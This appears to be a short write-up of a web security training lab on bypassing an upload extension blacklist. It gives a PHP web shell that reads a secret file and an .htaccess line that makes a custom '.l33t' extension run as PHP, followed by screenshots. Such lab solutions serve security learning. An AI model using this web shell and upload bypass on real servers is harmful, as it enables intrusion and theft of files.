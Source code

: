 #  Web shell upload via extension blacklist bypass

## File Contents
* php
```php
<?php
system("cat /home/carlos/secret");
?>
```
* .htaccess
```html
AddType application/x-httpd-php .l33t
```

## Uploading
![image](https://user-images.githubusercontent.com/60841283/150632010-0f28f6f5-e4fb-48c6-b3c7-ae00f74fcc59.png)

![image](https://user-images.githubusercontent.com/60841283/150632029-3511e069-73da-4b5a-8807-d39e2d70de72.png)

Create a arbitary extension l33t to execute php file

![image](https://user-images.githubusercontent.com/60841283/150632214-05173553-72a1-40c4-80cb-f485675468d2.png)

![image](https://user-images.githubusercontent.com/60841283/150632236-63c00e11-de31-443a-8aca-7e281194ef9b.png)

![image](https://user-images.githubusercontent.com/60841283/150632243-41c4877b-71f6-4abd-b24d-8ba3d704020c.png)
